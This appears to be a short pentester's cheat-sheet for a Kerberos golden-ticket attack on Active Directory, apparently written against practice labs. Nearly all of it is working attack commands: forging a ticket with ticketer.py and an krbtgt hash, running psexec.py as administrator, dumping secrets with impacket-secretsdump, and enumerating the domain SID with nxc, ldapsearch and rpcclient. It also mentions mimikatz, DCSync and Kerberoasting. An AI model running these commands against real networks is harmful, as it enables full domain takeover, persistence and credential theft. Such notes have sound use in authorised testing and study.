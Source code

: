 ```yaml
---
sticker: emoji//1f3ab
---
```

### Requirements
- Knowledge of the domain name
- Knowledge of the domain SID
- The NTLM hash of the krbtgt account
- FQDN

```shell
ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park administrator

export KRB5CCNAME=administrator.ccache

psexec.py sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local -k -no-pass
```



---

### getting `NTLM` hash or the plain password:

 1. using impacket-secretdump (has to be domain admin account) 
 ```shell
 impacket-secretsdump 'north.sevenkingdoms.local/vagrant:vagrant@192.168.56.11'
```
 
 2.  mimkatz LSASS dump
 3. DCSync attack 
 4. Kerberoast > Crack > NTLM
 ```shell
 # this will get us the NTLM hash
 echo -n 'Password123!' | iconv -f utf-8 -t utf-16le | openssl dgst -md4 
```

---
### Getting Domain SID:
its basically the first part of any SID object.
```powershell
nxc:
nxc ldap lol.local -u sqlsvc -p test -k --get-sid

ldapsearch:
ldapsearch -x -H ldap://<DC_IP> -b "" -s base objectSid

impacket-GetADUsers:
impacket-GetADUsers domain/user:password@<DC_IP> -all

rpcclient:
rpcclient $> lookupdomain north.sevenkingdoms.local
```


